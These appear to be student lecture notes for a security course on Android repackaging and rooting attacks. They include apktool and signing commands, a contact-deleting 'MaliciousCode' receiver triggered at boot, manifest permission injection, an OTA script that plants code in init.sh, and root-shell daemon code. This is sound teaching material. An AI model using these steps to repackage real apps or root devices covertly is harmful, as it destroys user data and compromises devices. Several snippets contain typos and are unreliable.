

# Week 8 Repackaging Attack and Rooting Attack

## Directory
- [Home](/README.md#table-of-contents)
- [Week 7 SQL Injection and Clickjacking](/week7/README.md#week-7-sql-injection-and-clickjacking)
- **&rarr;[Week 8 Repackaging Attack and Rooting Attack](/week8/README.md#week-8-repackaging-attack-and-rooting-attack)**
- [Week 9 Access Control](/week9/README.md#week-9-access-control)

## 8.2 Part 1: Android Repackacing Attack
([top](#directory))

## 8.3 How the Attack Works
([top](#directory))

### Computer Virus
  - program

||||
|-|-|-|
|jump to `malicious`||
||`program`||
||`malicious`|jump back to start of program|

### Overview of the Repackaging Attack

- download legit app
- disassemble, repackage them with malware
- upload to 3rd party app store

#### binary repackaging
- android uses binary repackaging

#### Binary restructuring
- exe
- need to understand the binary
- harder than Android binary code repackaging

## 8.4 Disassemble APK File
([top](#directory))

|||
|-|-|
|`android project`|java|
|`compile and packaging`||
|`android package (apk file)`|zip|
|`classed.dex`|zip|
|`resource.arsc`|zip|
|`uncompiled resources`|zip|
|`AndroidManifest.xml`|zip|
|sign APK developer's private key||

### APK Structure


- AndroidManifest.xml
- classes.dex
  - bytecode
- res/
- lib/ (sometimes)
- META-INF

#### Process

apk &rarr; unpack &rarr; classes.dex
- disassemble the dex file.
  - assembly code
  - add malware to assembly code
- reassemble to the code
  - modified classes.dex
- APK

### Disassemble the APK File (ubuntu)

#### Disassemble the APK file

```terminal
$ apktool d RepackagingLab.apk
```

#### Assemble the APK file

```terminal
$ apktool b [application_folder]
```

#### APK Structure after Disassembly

- `Android App Package` (APK)
  - `original`
    - `META-INF` (contains data that are used to ensure the integrity of the APK package and system security)
  - `res` (contains resource files, such as animation, color, images, layout etc)
    - `anim`
    - `colo`
    - `drawable`
    - `layout`
    - `values`
  - `smali`
    - `android` (contains android support library code decompiled in smali)
    - `com` (it contains application specific code decompiled in smali)
  - `AndroidManifest.xml` (contains information about app components, name, version, access rights, also references to library file and other)

### Smali Code (Assembly)

#### Java Code
```java
if (flagx==1)
  flagx=2
else
  flag=3
```

#### Smali Code

```smali
const/4 v1, 0x1
if-ne v0, v1, :cond_0
const/4 v2, 0x2
move v0,v2
goto :goto_0
:cond_0
const/4 v2, 0x3
move v0,v2
:goto_0
```

## 8.5 Writing Malicious Code
([top](#directory))

- Modify smali code
  - hard
- add an independent component
  - activity
    - ui
  - service
  - broadcast receiver
    - triggered by broadcast
    - `malicious`

### Malicious Code Example

```java
public class MaliciousCode extends BroadcastReceiver{
    @override
    public void onReceive(Context context, Intent intent){
        ContentResolver contentResolver = context.getContentResolver();
        Cursor cursor = contentResolver.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);

        while(cursor.moveToNext()){
            String lookupKey = cursor.getString(cursor.getColumnIndex(ContactsContract.Contacts.LOOKUP_NEXT));
            
            Uri uri = Uri.WithAppendedPath (ContactsContract.Contacts.CONTENT_LOOKUP_URI,lookupKey);
            contentResolver.delete(uri,null,null);
        }
    }
}
```

#### Inject the smali code

```
$ cp MaliciousCode.smali RepackagingLab/smali/com/
```


### Permission-Based Access Control for Android

- Android
  - ask permission abc
  - approved
  - if approved
    - install

#### Request More Permissions

*AndroidManifest.xml*
```xml
<manifest...>
  ...
  <uses-permission android:name="android.permission.READ_CONTACTS"/>
  <uses-permission android:name="android.permission.WRITE_CONTACTS"/>
  <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>

  <application>
     ...
     <receiver android:name="com.MaliciousCode">
       <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED"/>
       </intent-filter>

     </receiver>
  </application>
</manifest>
```

## 8.6 Repackaging
([top](#directory))


### Repackage the Appp

#### Compile smali code to dex code, and package the app

```
$ apktool b RepackagingLab
```

#### The location of the new APK file

```
$ ls -l RepackagingLab/dist/
```

### Signing APK File

self-sign, not secure

### Sign the APK File: Commands

#### Step 1: Generate the signing key

```
$ keytool -alias mykey -genkey -v -keystore mykey.keystore
```

#### Step 2: Sign the APK File

```
$ jarsigner -keystore mykey.keystore RepackagingLab.apk mykey
```

### Experiment Setup

#### VMs
- ubuntu
- android

#### Get Android's IP Address (inside android vm)
```
$ netcfg
```

#### Connect to Android VM from the Ubuntu VM
```
$ adb disconnect
$ adb connect 10.0.2.19
$ adb devices
$ adb install -r RepackagingLab.apk
```

## 8.8 Summary
- how repackaging attacks work
- the repackaging process
- reverse engineering


## 8.9 Part 2: Android Rooting Attack
([top](#directory))

## 8.10 How to Root Android Devices
([top](#directory))

### How to Root Android Devices

- gain root
  - uid=0
- Android: on Linux
  - app1: uid=1
  - app2: uid=2
  - app3: uid=3
***
- rooting
- malicious rooting

***
- Two approaches
  - exploit vulnerability
    - no setuid programs in android
  - do it from outside &larr; this lecture

## 8.11 Rooting Approaches
([top](#directory))


### Rooting From Inside
Case Study: using the "Dirty COW" Exploit

### Rooting From Outside

- Approach 1
  - change the entire OS
  - not good
- Approach 2
  - OS update
    - Download Update
      - OTA (over the air) package
      - (don't do live update because the OS will be vulnerable)
    - Reboot to enter Recovery OS
      - Modify Android OS using OTA
    - Reboot to enter Android OS
***
- Idea: Create an OTA
- Bad news: Signature prevents from creating unauthorized OTA
- Solution: Replace recovery OS
- Bad news: Locked Bootloader
  - OS can't be replaced
  - allow to unlock

## 8.12 Rooting Real Devices
([top](#directory))

## 8.13 How OTA Works
([top](#directory))

### The OTA Structure

- `OTA Package`
  - `META-INF`
    - `MANIFEST.MF`
    - `CERT.RSA`
    - `CERT.SF`
    - `com/`
      - `google/`
        - `android/` (entry point)
          - `update-binary` (modify OS to gain root privilege)
          - `update-script` (modify OS to gain root privilege)
  - `arm/`
  - `x86/`
  - `system/`
  - `boot/`
  - `.../`

## 8.14 Constructing OTA Package
([top](#directory))


### Mount Points and OTA Script
- `android/` directory in Recovery is mounted to Android `/`
- code `/android`
  - inect code to `/`

### Build OTA Package

#### Modify `update-binary`

```
cp dummy.sh /android/system/xbin
chmod a+x /android/system/xbin/dummy.sh
sed -i "/return 0/i/system/xbin/dummy.sh" /android/system/etc.init.sh
```
- trigger file by adding command `sed -i` during the boot process
#### Build the OTA Package

```
$ zip -r task1.zip task1/
```
- give to recovery OS

### Inject Code via app_process

**Objective: Update Android OS - create a dummy file during the Android Runtime bootup**


|boot process||
|-|-|
|Power on|linux process|
|Boot ROM|linux process|
|Bootloader|linux process|
|Kernel|linux process|
|Init|init.sh (linux process)|
|---|---|
|Zygote|starting of android|
|System Servers||
|Broadcast ACTION_BOOT_COMPLETED||
|Boot completed||

### Modified app_process

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

extern char ** environ;

int main(int argc, char** argv){
    //write the dummy file
    FILE* f= fopen("/system/dummy2","w");
    if(f==NULL){
        printf("Permission denied\n");
        exit(EXIT_FAILURE);
    }
    fclose(f);

    // launch the original binary
    char* cmd="/system/bin/app_process_original";
    execve(cmd,argv,environ);
    // execve() returns only if it fails
    return EXIT_FAILURE;
}
```

## 8.15 Get a Root Shell
([top](#directory))

**Objective: Update Android OS - enable users to get a *root shell***

|boot process||
|-|-|
|Power on||
|Boot ROM||
|Bootloader||
|Kernel||
|Init||
|`/bin/bash`|bad idea, can be interrupted|
|`/bin/bash &`|run in background - no control though|
|---|---|
|Zygote|starting of android|
|System Servers||
|Broadcast ACTION_BOOT_COMPLETED||
|Boot completed||

`\bin\bash`

- root daemon (want to use normal process input/output/stderr)
    - 0 stdin
    - 1 stdout
    - 2 stderr

- normal process
    - 0
    - 1
    - 2



Send File Descriptor from Client to Child Process using unix domain socket

### Code Details

#### Give the cient access to the root shell process
```C
int client_in = recv_fd(socket);
int client_out = recv_fd(socket);
int client_err = recv_fd(socket);

dup2(clinet_in, STDIN_FILENO); //1
dup2(clinet_out, STDOUT_FILENO); //2
dup2(clinet_err, STDERR_FILENO); //3

//change the current directory
chdir("/");
//construct the essential environment variables
char* env[] = {SHELL_ENV,PATH_ENV};

char* shell[]={DEFAULT_SHELL, NULL};
execve(shell[0],shell,env);
```

## 8.17 Summary
([top](#directory))
- How rooting works
- How to use OTA to root Android devices